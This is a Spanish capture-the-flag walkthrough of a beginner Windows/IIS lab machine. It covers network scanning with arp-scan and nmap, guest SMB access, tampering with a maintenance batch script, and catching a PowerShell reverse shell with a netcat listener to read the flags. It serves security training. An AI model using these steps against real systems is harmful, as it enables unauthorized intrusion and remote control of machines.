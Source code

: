 
![](Pasted%20image%2020241122161625.png)

Creador: Oscar.
Fecha de creación 28/10/2024
Nivel: principiante. 


RECONOCIMIENTO
-------------------------------

```
arp-scan -I eth0 --localnet
```


![](Pasted%20image%2020241122162501.png)

Hacemos el scaneo para conocer la ip de la víctima y nos sale: 

![](Pasted%20image%2020241122162557.png)

La ip víctima es: 

```
192.168.1.56
```

Ahora lo que haremos con nmap un scaneo. 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 192.168.1.56
```

`-p-` ⮞ Aplicar reconocimiento a todos los puertos .

`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida .

`-sV` ⮞ Para realizar un escaneo en búsqueda de los servicios.

`-sC` ⮞ Para realizar un escaneo de los scripts básicos de reconocimiento. 

`--min-rate 5000` ⮞ para enviar paquetes más rápido.

`-n` ⮞ Para no aplicar la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro). 

`-vvv` ⮞ Conforme descubre un puerto nos lo muestra por pantalla .

`-Pn` ⮞ Ignora el descubrimiento de hosts mediante ping. 


![](Pasted%20image%2020241122163043.png)


Tenemos un servidor de IIS. 

Nos vamos al puerto 80, http. 

![](Pasted%20image%2020241122164044.png)

Un portafolio y noticias Tech. 
Tenemos que observar bien y podremos encontrar lo siguiente: 

![](Pasted%20image%2020241122164338.png)

Daniel y luis deben de hacer una revisión con privilegios. 

Vamos a ver el servicio de smb. 

```
netexec smb 192.168.1.56 -u 'guest' -p '' 
```

Vemos que tenemos acceso compartidos. 

![](Pasted%20image%2020241122165128.png)

Vamos a listarlos. 

```
netexec smb 192.168.1.56 -u 'guest' -p '' --shares
```

![](Pasted%20image%2020241122165212.png)

Sólo podemos a acceder a compartido porque tenemos permiso de lectura y escritura. 

```
smbclient -U guest%123456 //192.168.1.56/Compartido
```


![](Pasted%20image%2020241122170250.png)

Ya estamos en smb.


En el directorio **\Compartido\Proyecto\Quokka\Código** está lo que vamos a descargarnos :

copia.bat y mantenimiento.bat


![](Pasted%20image%2020241122170553.png)

Nos los decargamos con get: 

```
get mantenimiento.bat
```

Nos salimos de smb.


Hacemos un cat a mantenimiento.bat.
Nos sale lo siguiente: 

![](Pasted%20image%2020241122170831.png)

Creamos una shell ps1. 
Buscamos en git-hub revershell ps1 y pegamos el script en nuestro archivo que hemos creado. 

![](Pasted%20image%2020241122171658.png)


Cambiamos la ip, la que es nuestra. Y le ponemos el puerto que queramos. 

```
python -m http.server 80
```


```
nc -lvnp 5555
```

![](Pasted%20image%2020241122172723.png)

Tenemos la revershell en kali. 

Hacemos un dir. 

Nos vamos al directorio raíz. 

![](Pasted%20image%2020241122173020.png)

Nos vamos al directorio de administrator y desktop. Tenemos el flag del admisnitrador. 

Y vamos a ver la flag de omar.

![](Pasted%20image%2020241122173719.png)


